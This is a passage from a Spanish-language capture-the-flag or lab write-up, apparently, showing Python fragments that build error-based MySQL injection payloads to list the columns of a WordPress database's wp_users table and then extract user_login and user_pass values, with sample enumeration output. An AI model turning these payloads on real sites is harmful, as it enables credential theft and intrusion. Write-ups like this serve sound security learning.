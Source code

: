 Bien, 12 tablas, juguemos con el script para extraer columnas de las tablas:

#### SQL injection - Columnas wordpress DB

```py
...
table_name = sys.argv[2]
table_name_hex = table_name.encode('utf-8').hex()
...
    payload = "(SELECT 8350 FROM(SELECT COUNT(*),CONCAT(0x5441424C45,(SELECT MID((IFNULL(CAST(column_name AS NCHAR),0x20)),1,50) FROM INFORMATION_SCHEMA.COLUMNS "
    payload += "WHERE table_schema IN (0x%s) AND table_name IN (0x%s) LIMIT %d,1),0x5441424C45,FLOOR(RAND(0)*2))x " % (db_name_hex, table_name_hex, table_position)
    payload += "FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)nada)"
...
```

Le indicamos que ahora tome en otro parametro la tabla a fuzzear, ejecutandolo contra la tabla `wp_users`, tenemos:

```bash
❭ python3 ex_colums.py wordpress wp_users
[+] Extrayendo columnas de la tabla wp_users: d0Ne
[+] Payload: d0Ne
------------------------------------------·
[+] Columna [0]: ID
[+] Columna [1]: user_login
[+] Columna [2]: user_pass
[+] Columna [3]: user_nicename
[+] Columna [4]: user_email
[+] Columna [5]: user_url
[+] Columna [6]: user_registered
[+] Columna [7]: user_activation_key
[+] Columna [8]: user_status
[+] Columna [9]: display_name

k3Ep br3ak1n6 4anYyyu...

```

#### SQL injection - Info columnas

Perfecto, veamos la data que hay en la columna `user_login` y `user_pass`:

```py
...
db_name = sys.argv[1]
table_name = sys.argv[2]
column_name = sys.argv[3]
...
    # Debemos agrandar el substring, ya que pueda que nos encontremos unos hashes y pueden ser largos, ahora la extraccion es: Edata_de_la_tablaT
    payload = "(SELECT 8350 FROM(SELECT COUNT(*),CONCAT(0x45,(SELECT MID((IFNULL(CAST(%s AS NCHAR),0x20)),1,80) FROM %s.%s " % (column_name, db_name, table_name)
    payload += "LIMIT %d,1),0x54,FLOOR(RAND(0)*2))x " % (table_position)
    payload += "FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)nada)"
...
```
